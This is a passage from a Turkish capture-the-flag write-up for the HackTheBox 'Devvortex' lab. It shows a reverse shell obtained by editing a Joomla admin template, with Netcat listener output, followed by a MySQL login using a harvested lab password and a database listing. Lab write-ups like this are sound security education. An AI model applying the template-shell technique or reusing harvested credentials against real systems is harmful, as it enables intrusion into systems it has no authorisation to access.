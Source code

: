 Dosyanın son hali aşağıda verilmiştir:

![](../assets/images/devvortex/joomla-reverse-shell.png)

Bu sayede [http://dev.devvortex.htb/administrator/templates/atum/index.php](http://dev.devvortex.htb/administrator/templates/atum/index.php) adresine gittiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.242] 60526
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

Kullanıcı kimlik bilgilerini öğrendiğim aşamada MySQL ile ilgili bilgiler de bulunmaktaydı. Bunun için MySQL ile etkileşime geçtim:

```bash
mysql -u lewis -pP4ntherg0t1n5r3c0n##
```

MySQL içinde mevcut olan veri tabanlarını görüntüledim:

```text
show databases;
```

```text title="Output" hl_lines="5"
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
```
